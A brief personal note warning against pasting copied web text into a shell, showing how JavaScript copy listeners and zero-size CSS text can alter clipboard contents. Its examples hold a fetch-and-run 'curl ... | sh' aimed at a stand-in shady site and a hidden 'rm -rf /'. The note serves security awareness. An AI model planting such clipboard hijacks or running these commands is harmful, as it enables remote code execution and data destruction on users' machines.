 ```yaml
---
aliases:
  - Do not Copy-paste into a Shell
date: 2024-09-12
date modified: 2024-09-12
title: Do not Copy-paste into a Shell
---
```


# Do not Copy-paste into a Shell

Modern web API (including CSS!) can modify what is written into the clipboard through an event listener. The compromised content could even contain a newline character that execute the code. [^1]

Example in JavaScript

```javascript
document.getElementById('copyme').addEventListener('copy', function(e) {
    e.clipboardData.setData('text/plain',
        'echo "this could have been [curl http://myShadySite.com | sh]"\n'
    );
    e.preventDefault();
});
```

Example with CSS

```html
echo <span style="font-size: 0;">; rm -rf / ; echo </span> "looks safe to me!"
```

[^1]: [Brian Tracy - copy-paste-shell](https://briantracy.xyz/writing/copy-paste-shell.html)
